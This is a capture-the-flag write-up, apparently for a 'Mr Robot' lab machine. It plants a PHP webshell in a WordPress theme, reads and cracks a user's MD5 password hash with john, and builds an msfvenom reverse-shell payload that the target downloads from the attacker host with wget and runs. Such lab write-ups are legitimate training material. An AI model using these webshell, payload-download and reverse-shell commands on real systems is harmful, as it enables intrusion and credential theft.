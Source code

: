 #### Credentialed Enumeration

In as elliot:ER28-0652.

In Users section elliot is listed as the administrator. There is another user called mich05654.

#### Intall Webshell

As elliot edited Twenty Thirteen theme at Appearance > Themes > Editor and added a webshell to the 404.php template.

````
# Add the webshell to the beginning of the code
system($_GET[cmd]);
````

### Webshell

#### Credentialed Enumeration (Continued)

The second key was found from user robot's home folder, but it's only readable by user robot. However within the same there seems to be another file called password.raw-md5.

````
curl http://10.10.198.85/wp-content/themes/twentythirteen/404.php?cmd=ls+-al+/home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
````

````
curl http://10.10.198.85/wp-content/themes/twentythirteen/404.php?cmd=cat+/home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
````

#### Hash Cracking

`````
# Cracking robot's hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash

abcdefghijklmnopqrstuvwxyz (robot)
`````
#### Upgrade to RSHELL

Upgraded to a reverse shell to make the enumeration easier and faster. 

````
# Attack machine
## Create and move the payload to target (HTTP download)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.73.30 LPORT=4444 -f elf -o reverse.elf

## Open listener
rlwrap nc -nvlp 4444

# Target machine
curl http://10.10.192.99/wp-content/themes/twentythirteen/404.php?cmd=wget+http://10.10.73.30:8000/reverse.elf
curl http://10.10.192.99/wp-content/themes/twentythirteen/404.php?cmd=chmod+777+reverse.elf
curl http://10.10.192.99/wp-content/themes/twentythirteen/404.php?cmd=./reverse.elf
python -c 'import pty; pty.spawn("/bin/bash")'
````
